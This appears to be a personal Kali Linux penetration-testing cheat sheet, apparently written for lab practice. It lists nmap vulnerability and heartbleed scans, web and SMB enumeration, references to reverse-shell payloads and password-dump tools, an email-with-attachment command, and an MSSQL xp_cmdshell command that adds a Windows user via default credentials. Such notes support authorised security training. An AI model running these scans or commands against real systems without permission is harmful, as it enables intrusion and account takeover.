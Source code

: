 # Kali command

## Special directory

Most of the resources can be found at /usr/share, include
* /usr/share/wordlist/rockyou.txt
* /usr/share/nmap/scirpts
* /usr/share/exploitdb/....
* /usr/share/windows-binaries

## enumeration

Scanning and time taken

* TCP 1000 port

* TCP all port

* UDP 1000 port
    nmap -sU -v 10.11.1.49
    Time taken 1 minutes
    nmap -sT -T 4

* UDP all port
    nmap -sU -v -p- 10.11.1.49
    Time taken

`nmap -sV -p 80 --script=vulns 192.168.1.0/24`

`nmap -sV -p 443 --script=ssl-heartbleed 192.168.1.0/24`

`nmap -sT -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 10.1.1.236`


### nmap and scripts

nmap script are at /usr/share/nmap

Using nmap to find vulns

### website disovery tools

* dirb => dirb http://10.0.0.1

* nikto => nikto -h http://10.0.0.1

### smb discovery tools

* enum4linux

    * enum4linux 10.0.0.1

* smbclient

    * smbclient -L 10.0.0.1
    * smbclient //10.0.0.1/wwwroot -u ...

## Exploit searching

searchsploit and go to /usr/share/exploitdb

### Payload

Best php reverse shell: 
https://github.com/pentestmonkey/php-reverse-shell

### msfvenom

* php reverse shell

* python reverse shell

* war reverse shell

### Windows binaries

* password dump: fgdump => cachedump => pstgdump
* plink
* nc

## File transfer

* python -m SimpleHTTPServer 80

* python -m pyftpdlib -p 21 --write

## Transfer file using nc

Please aware of the version!! I encounter some nc doesnot support -e flag.


## Email

* sendEmail -t receiver@domain.local -f sender@domain.local -xu sender@domain.local -xp password -s 10.11.1.229 -u Urgent report -a ./report.pdf


## MSSQL

* https://nmap.org/nsedoc/scripts/ms-sql-xp-cmdshell.html
```sh
nmap -p 445 --script ms-sql-discover,ms-sql-empty-password,ms-sql-xp-cmdshell <host>
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user test test /add" <host>
```



## Kali troubleshoot

sudo ifconfig eth0 up
sudo dhclient eth0 <- request smbd to turn on.
